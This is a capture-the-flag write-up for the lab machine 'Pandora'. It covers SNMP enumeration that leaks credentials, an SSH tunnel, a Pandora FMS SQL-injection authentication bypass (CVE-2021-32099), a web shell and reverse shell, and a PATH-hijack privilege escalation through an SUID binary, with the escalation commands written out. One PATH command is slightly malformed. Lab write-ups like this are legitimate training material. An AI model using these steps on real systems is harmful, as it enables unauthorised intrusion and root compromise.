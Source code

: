# Pandora

## Gaining Access

Nmap scan results:

<figure><img src="../../../.gitbook/assets/image (391).png" alt=""><figcaption></figcaption></figure>

### Port 80

The website was some form of corporate website.&#x20;

<figure><img src="../../../.gitbook/assets/image (397).png" alt=""><figcaption></figcaption></figure>

However, checking for directories or other web exploits was rather unsuccessful, as I did not find anything of use.&#x20;

### SNMP

Because we couldn't find anything with the TCP ports, we could enumerate the UDP ports and hopefully find something:

```
$ sudo nmap -sU -top-ports=100 panda.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2022-03-28 06:00 EDT
Nmap scan report for panda.htb (10.10.11.136)
Host is up (0.089s latency).
Not shown: 99 closed ports
PORT    STATE SERVICE
161/udp open  snmp

Nmap done: 1 IP address (1 host up) scanned in 95.71 seconds
```

So port 161 for SNMP was open. We can then use `snmpwalk` to enumerate this further.

<figure><img src="../../../.gitbook/assets/image (378).png" alt=""><figcaption></figcaption></figure>

Redirecting this output to a file, I was able to find some credentials within the contents:

<figure><img src="../../../.gitbook/assets/image (409).png" alt=""><figcaption></figcaption></figure>

With these credentials, we can SSH in as the `daniel` user.

## Privilege Escalation

### Pandora FMS

As Daniel, we didn't have much permissions over the machine. However, we were able to head to the `/var/www/pandora` directory to find another potential website that was up:

<figure><img src="../../../.gitbook/assets/image (84) (2).png" alt=""><figcaption></figcaption></figure>

Checking the apache2 config files reveals that the user `matt` was running the other web server:

<figure><img src="../../../.gitbook/assets/image (370).png" alt=""><figcaption></figcaption></figure>

So, I started an SSH tunnel using the credentials for `daniel`, and we can forward port 80 to our machine.

```bash
ssh -L 4444:127.0.0.1:80 daniel@pandora.htb
```

<figure><img src="../../../.gitbook/assets/image (400).png" alt=""><figcaption></figcaption></figure>

### Upgrade Session

We can enumerate from the machine that this was a Pandora FMS instance.

<figure><img src="../../../.gitbook/assets/image (386).png" alt=""><figcaption></figcaption></figure>

Pandora FMS was vulnerable to many types of exploits, one of which was CVE-2021-32099, which would leverage SQL Inejction on the `/include/chart_generator.php` endpoint to bypass authentication and allow attackers to login as the admin.

{% embed url="https://github.com/ibnuuby/CVE-2021-32099" %}

Then, we would gain access to the Pandora Dashboard.

<figure><img src="../../../.gitbook/assets/image (363).png" alt=""><figcaption></figcaption></figure>

### RCE as Matt

I did more research and found this repository, which allowed us to make use of the SQL Injection to upload any web shell of our choosing to the server:

<figure><img src="../../../.gitbook/assets/image (385).png" alt=""><figcaption></figcaption></figure>

Then, we can gain a reverse shell via a Python3 shell.

<figure><img src="../../../.gitbook/assets/image (413).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (408).png" alt=""><figcaption></figcaption></figure>

### Exploiting PATH&#x20;

I ran another LinPEAS as `matt`, and found that the root user was running some processes.

<figure><img src="../../../.gitbook/assets/image (365).png" alt=""><figcaption></figcaption></figure>

I also found this one SUID binary called `pandora_backup`.

```bash
$ find / -perm -4000 -ls 2>/dev/null
   264644    164 -rwsr-xr-x   1 root     root       166056 Jan 19  2021 /usr/bin/sudo
   265010     32 -rwsr-xr-x   1 root     root        31032 May 26  2021 /usr/bin/pkexec
   267386     84 -rwsr-xr-x   1 root     root        85064 Jul 14  2021 /usr/bin/chfn
   262764     44 -rwsr-xr-x   1 root     root        44784 Jul 14  2021 /usr/bin/newgrp
   267389     88 -rwsr-xr-x   1 root     root        88464 Jul 14  2021 /usr/bin/gpasswd
   264713     40 -rwsr-xr-x   1 root     root        39144 Jul 21  2020 /usr/bin/umount
   262929     20 -rwsr-x---   1 root     matt        16816 Dec  3 15:58 /usr/bin/pandora_backup
```

Running `pandora_backup` would call `tar` as per the process we found. The fact that `tar` did not use the absolute path means that we can create our own malicious `tar` script that would give us RCE as root because an SUID binary was in use here.

We can run these commands for a shell:

```bash
cp /bin/bash tar
chmod 777 tar
export PATH=$(pwd).$PATH
pandora_backup
```

<figure><img src="../../../.gitbook/assets/image (407).png" alt=""><figcaption></figcaption></figure>
